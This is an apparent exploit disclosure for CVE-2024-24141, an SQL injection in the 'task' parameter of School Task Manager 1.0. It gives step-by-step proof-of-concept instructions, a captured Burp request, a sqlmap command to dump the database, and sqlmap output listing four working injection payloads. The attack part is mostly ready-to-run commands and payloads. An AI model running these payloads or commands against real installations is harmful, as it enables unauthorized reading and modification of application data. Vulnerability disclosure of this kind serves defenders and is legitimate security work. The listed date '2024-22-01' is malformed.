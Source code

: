 # CVE-2024-24141: School-Task-Manager-System-SQL_Injection-1
+ **Exploit Title:** CVE-2024-24141:  School-Task-Manager-System-SQL_Injection-1
+ **Date:** 2024-22-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/16877/school-task-manager-using-php-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=16877&title=School+Task+Manager+Using+PHP+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-24141

## References: 
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-24141
+ https://www.cve.org/CVERecord?id=CVE-2024-24141
+ https://nvd.nist.gov/vuln/detail/CVE-2024-24141

## Description:
School Task Manager App 1.0 allows SQL Injection via the 'task' parameter in "/school-task-manager/endpoint/delete-task.php?task=5". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "localhost/school-task-manager/index.php"
+ Select any task and press the delete-task button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /school-task-manager/endpoint/delete-task.php?task=5 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'task' parameter to dump the database.
```
sqlmap -r r.txt -p task --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
Parameter: task (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: task=5' RLIKE (SELECT (CASE WHEN (2662=2662) THEN 5 ELSE 0x28 END))-- miQh

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: task=5' AND EXTRACTVALUE(6730,CONCAT(0x5c,0x7171627871,(SELECT (ELT(6730=6730,1))),0x717a716271))-- RTrX

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: task=5';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: task=5' AND (SELECT 3686 FROM (SELECT(SLEEP(5)))oiSk)-- tcLg
---
[18:07:59] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[18:07:59] [INFO] fetching current database
[18:07:59] [INFO] retrieved: 'school_task_manager_db'
current database: 'school_task_manager_db'
```
+ current database: `school_task_manager_db`
![Ekran görüntüsü 2024-01-22 030940](https://github.com/BurakSevben/School-Task-Manager-System-SQLi-1/assets/117217689/08ca7497-68b4-429c-8503-d276fec18f48)


